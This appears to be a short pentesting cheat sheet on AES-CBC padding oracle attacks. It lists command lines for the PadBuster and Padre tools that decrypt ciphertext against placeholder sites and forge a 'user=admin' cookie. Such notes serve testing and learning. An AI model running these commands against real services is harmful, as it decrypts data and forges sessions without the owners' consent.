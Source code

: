 ```yaml
---
title: AES-CBC Padding Oracle Attack
description: 
tags:
    - Cryptography
refs:
date: 2024-07-28
draft: false
---
```


## Automation

### PadBuster

[PadBuster](https://github.com/AonCyberLabs/PadBuster) is an automated script for performing Padding Oracle attacks. It’s useful to decrypt AES.

```sh
# Encrypted Sample -> 2hN2bBPw==
# 16 -> Block site
# -encoding: 0->Base64, 1->Lower Hex, 2->Upper Hex, 3->NET UrlToken, 4->WebSafe Base64
padbuster https://vulnerable.com/?data=2hN2bBPw== 2hN2bBPw==  16 -encoding 0

# -bruteforce: Brute force against the first block
padbuster https://vulnerable.com/?data=2hN2bBPw== 2hN2bBPw== 16 -encoding 0 -bruteforce

# -cookies: specify cookie value
padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw=="

# -plaintext: specify plain text
padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw==" -plaintext "user=admin"
```

### Padre

[Padre](https://github.com/glebarez/padre) is an advanced exploiter for Padding Oracle attacks against CBC mode encryption.

```sh
# Cookie
padre -u 'https://example.com/profile.php' -cookie 'SESS=$' 'ABCD=='

# Path
padre -u 'https://example.com/profile/$' 'ABCD=='

# -e: Specify encode type ('b64' or 'lhex')
padre -u 'https://example.com/profile/$' -e lhex '1234abcd...'

# -err: Error response contents pattern (regex)
padre -u 'https://example.com/profile/$' -err 'Error' 'ABCD=='
```